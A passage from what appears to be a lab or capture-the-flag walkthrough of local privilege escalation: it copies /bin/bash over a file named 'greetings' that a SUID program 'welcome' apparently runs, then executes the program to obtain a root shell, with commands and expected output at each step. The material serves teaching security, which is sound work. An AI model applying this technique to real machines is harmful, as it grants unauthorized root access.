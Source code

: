 **What This Command Does:**
- **cp** = copy command
- **/bin/bash** = source (the system shell)
- **greetings** = destination (our fake greetings program)

**Result:** We now have a file named `greetings` that is actually a copy of the bash shell.

#### **Step 7.3: Verify Our Replacement**
```bash
ls -la greetings
```

**Expected Output:**
```bash
student@target:~$ ls -la greetings
-rwxr-xr-x 1 student student 1113504 Oct  8 14:30 greetings
```

**Analysis:**
- File is now owned by student (us)
- File is executable
- File size matches bash binary
- No SUID bit on our copy (but that's okay - welcome will give us the privileges)

---

### **Step 8: Execute the Exploit**

**What We're Doing:** Running the vulnerable program to trigger our privilege escalation

#### **Command Used:**
```bash
./welcome
```

#### **🎉 The Magic Moment:**
```bash
student@target:~$ ./welcome
root@target:/home/student#
```

#### **🎊 Success Analysis:**
- **Prompt changed from `$` to `#`** - Indicates root access!
- **Username changed from `student` to `root`** - We are now root!
- **We have a shell** - Interactive command access with root privileges

#### **Verify Our New Privileges:**
```bash
whoami
```

**Output:**
```bash
root@target:/home/student# whoami
root
```
